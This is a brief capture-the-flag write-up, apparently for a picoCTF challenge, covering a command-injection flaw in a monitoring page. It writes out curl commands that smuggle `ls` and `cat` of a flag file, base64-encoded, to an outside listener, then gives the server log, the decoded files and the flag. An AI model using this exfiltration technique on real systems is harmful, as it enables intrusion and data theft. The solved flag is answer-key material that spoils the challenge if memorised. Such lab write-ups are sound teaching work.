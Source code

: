 # Fancy alive monitoring

I found that '$' is missed at server side filtering. So, we can inject our cmdline.

construct simple server using `python3 -m http.server`, and send injected request.

curl http://120.50.93.126/`ls|base64`

result is :

`18.224.157.204 - - [16/Oct/2018 01:17:47] "GET /aW5kZXgucGhwCmluZGV4LnR4dAp0aGUtc2VjcmV0LTE3NTUtZmxhZy50eHQKeGluZXRfc3RhcnR1 HTTP/1.1" 404 -`

```
index.php
index.txt
the-secret-1755-flag.txt
xinet_start
```

Then, send "curl http://120.50.93.126/`cat the-secret-1755-flag.txt|base64`"

`picoCTF{n3v3r_trust_a_b0x_36d4a875}`